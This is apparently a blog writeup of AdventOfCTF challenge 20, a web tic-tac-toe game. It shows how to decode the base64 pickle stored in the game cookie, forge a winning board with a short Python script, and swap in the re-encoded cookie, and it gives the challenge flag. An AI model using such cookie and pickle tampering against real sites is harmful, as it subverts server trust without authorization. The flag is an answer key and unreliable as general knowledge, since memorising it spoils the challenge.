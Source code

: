 +++
author = "Maik de Kruif"
title = "Challenge 20 - AdventOfCTF"
date = 2021-02-26T00:11:35+01:00
description = "A writeup for challenge 20 of AdventOfCTF."
cover = "img/adventofctf/2020/c1f93b6ee2e1cd25ea02f9a78c364b12.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "python",
    "serialization",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2000

## Description

To pass the time until Christmas the elves challenge Santa to a game of tic-tac-toe. Santa plays X, can you make him win?

Visit <https://20.adventofctf.com> to start the challenge.

## Recon

When looking around on the page, we can see a tic tac toe board with two links in it. These links direct to `/play/y/x` and place an `O` on the board. After placing it, `O` wins.

If we take a look at the source, we also find a bit of javascript:

```js
function send() {
  let emoji = $("#emoji")[0].value;
  if (emoji.length > 0) {
    $.post("/", { emoji: emoji }, function (data) {
      $("#msg")[0].innerHTML = "<b>" + data + "</b>";
    });
  }
}
```

This code doesn't seem to be used though and I don't see what it would be used for so we'll ignore it for now.

Lastly, we can check the cookies on the website. Here we can find the `game` cookie. It looks like it's some `base64` encoded data.

```text
game=gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu
```

## Finding the vulnerability

We will start by having a look at the `game` cookie. If we base64 decode it we do see some information about a board, but its not plain text.

```bash
echo -n "gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu" | base64 -d
```

```text
�}q(Xboardq]q(]q(XOqhNe]q(hXXqhe]q(NhheeXturnhfinishedq	�Xwinnerq
NXsaneq
       �u.⏎
```

By the looks of it, it might be a serialized object but we don't know where it came from.

To find out what the backend framework of the server is, we can look at the `Server` header in the http response. This is not always filled in with useful information, but this time it was.

```text
Server: Werkzeug/1.0.1 Python/3.7.10
```

Here we can see the website uses Python for the backend. This narrows the amount of possible serialization libraries down a lot. A common library used for this in Python is Pickle.

To test whether the cookie is encoded pickle data, we can use the pickle's `loads` function to import the data from a string:

```text
>>> import pickle
>>> import base64
>>> pickle.loads(base64.b64decode("gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu"))
{'board': [['O', 'O', None], ['O', 'X', 'X'], [None, 'X', 'X']], 'turn': 'O', 'finished': False, 'winner': '', 'sane': True}
```

Yes! It's using pickle and we can now try to alter the board.

## Exploit

To alter the board, we can write a little Python script like the following. You can't just put three `X` in a row as the backend checks the game state. To get around this, we can just place a few `O` on the board.

```py
import base64
import pickle

board_b64 = "gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu"

data = pickle.loads(base64.b64decode(board_b64))

data["board"] = [['X', 'X', 'X'], ['O', None, None], [None, None, 'O']]
data["winner"] = 'X'
data["turn"] = 'O'

print(base64.b64encode(pickle.dumps(data)))
```

```text
gASVVwAAAAAAAAB9lCiMBWJvYXJklF2UKF2UKIwBWJRoBGgEZV2UKIwBT5ROaAZlXZQoTk5OZWWMBHR1cm6UaAaMCGZpbmlzaGVklImMBndpbm5lcpRoBIwEc2FuZZSIdS4=
```

We can then replace the `game` cookie with this string and reload the page.

## Solution

We got the flag! It is `NOVI{p1ckle_r1ck}`.
